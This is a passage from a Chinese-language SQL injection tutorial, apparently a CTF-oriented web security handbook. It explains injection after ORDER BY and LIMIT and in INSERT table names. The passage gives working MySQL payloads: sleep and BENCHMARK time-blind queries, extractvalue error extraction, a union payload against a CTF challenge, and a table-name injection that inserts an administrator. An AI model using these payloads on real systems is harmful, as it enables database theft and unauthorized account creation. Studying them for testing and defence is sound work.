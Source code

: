 经过测试可以发现，`?title=id desc,(if(1，sleep(1),1))` 会让页面迟 1 秒，于是可以利用时间注入获取相关数据。

警告

该方法只能用在 mysql 5 上，mysql 8 上失效。

##### [](#13143-%E5%88%A9%E7%94%A8----%E4%BD%8D%E8%BF%90%E7%AE%97%E7%AC%A6%E8%BF%9B%E8%A1%8C-order-by)13.1.4.3 利用 & | ^ 位运算符进行 order by

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```sql<br>// 布尔型盲注<br>select * from wp_user_ order by id\|(if(1,2,1))<br><br>//id 和 if 返回的结果进行按位与进行 order by 根据时间判断<br><br>select * from wp_user_ order by 1\|if(database() regexp "sectest",sleep(1),0)<br>``` |

##### [](#13144-%E5%88%A9%E7%94%A8%E6%8B%AC%E5%8F%B7%E9%97%AD%E5%90%88%E8%BF%9B%E8%A1%8C%E8%81%94%E5%90%88%E6%9F%A5%E8%AF%A2)13.1.4.4 利用括号闭合进行联合查询

前提是前句查询必须带有括号。

`(select * from person order by 1) union (select 1,2,3)`

**Demo**

[https://chall.tasteless.eu/level1/index.php?dir=asc](https://chall.tasteless.eu/level1/index.php?dir=asc)

payload: `?dir=,3)union(select%201,flag%20from%20level1_flag)%23`

#### [](#1315-%E6%B3%A8%E5%85%A5%E7%82%B9%E5%9C%A8-limit-%E5%90%8E)13.1.5 注入点在 LIMIT 后

LIMIT 后的注入判断比较简单，通过更改数字大小，页面会显示更多或者更少的记录数。由于语法限制，前面的字符注入方式不可行（LIMIT 后只能是数字），在整个 SQL 语句没有 ORDER BY 关键字的情况下，可以直接使用 UNION 注入。

另外，可根据 SELECT 语法，通过加入 PROCEDURE 来尝试注入，这类语句只适合 MySQL 5.6 前的版本，

`select id from wp_news limit 2 procedure analyse(extractvalue(1,concat(0x7e,version())),1)`

也可以进行时间盲注

`procedure analyse((select extractvalue(1,concat(0x3a,(if(mid(version(),1,1) LIKE 5, BENCHMARK(500000, SHA(1)), 1))))),1)`

也可以直接写文件 `into outfile`

### [](#132-insert-%E6%B3%A8%E5%85%A5)13.2 INSERT 注入

通常，注入位于字段名或者字段值的地方，且没有回显信息

#### [](#1321-%E6%B3%A8%E5%85%A5%E7%82%B9%E4%BD%8D%E4%BA%8E-tbl_name)13.2.1 注入点位于 tbl\_name

如果能够通过注释符注释后续语句，则可直接插入特定数据到想要的表内，如管理员表。例如，对于如下 SQL 语句：

`$res = mysqli_query($conn, "INSERT INTO {$_GET['table']} VALUES(2,2,2,2)");`

开发者预想的是，控制 table 的值为 wp\_news，从而插入新闻表数据。由于可以控制表名，可以访问 `?table=wp_user values(2，'newadmin'，'newpass')%23`，直接插入管理员。
